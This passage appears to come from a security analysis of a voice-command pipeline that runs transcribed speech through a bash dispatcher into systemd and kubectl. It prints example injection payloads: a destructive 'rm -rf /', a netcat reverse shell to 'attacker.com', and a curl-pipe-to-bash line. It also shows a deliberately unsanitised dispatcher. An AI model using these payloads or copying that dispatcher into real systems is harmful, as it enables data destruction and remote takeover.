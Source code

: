 > Output may resemble:

```
"reboot system now"
```

> ⚠️ Exploit Surface:

* Phrases like `; rm -rf /` or `| nc attacker.com 4444 -e /bin/bash` can be transcribed faithfully.
* Model accuracy >98% for short imperative sentences in English.

---

## 📜 2.3 Dispatcher Layer (Shell or Python)

The dispatcher **reads raw transcription** and maps it to commands.

### Bash Dispatcher (example)

```bash
#!/usr/bin/env bash
TRANSCRIPT=$(cat /tmp/transcript.txt)

case "$TRANSCRIPT" in
  *reboot*) systemctl reboot ;;
  *network*) systemctl restart NetworkManager ;;
  *update*) pacman -Syu --noconfirm ;;
esac
```

> ⚠️ Exploit Surface:

* No regex sanitation or quote handling.
* Full shell injection possible if payload is shaped like:

  ```
  reboot system && curl attacker.sh | bash
  ```

---

## 🧰 2.4 Execution Backends

### systemd (Local Linux Execution)

Voice command “restart network” is abstracted to:

```bash
systemctl restart NetworkManager
```

### Kubernetes (Linkerd Mesh Context)

Voice command “redeploy frontend” maps to:

```bash
kubectl rollout restart deployment/frontend -n prod
```
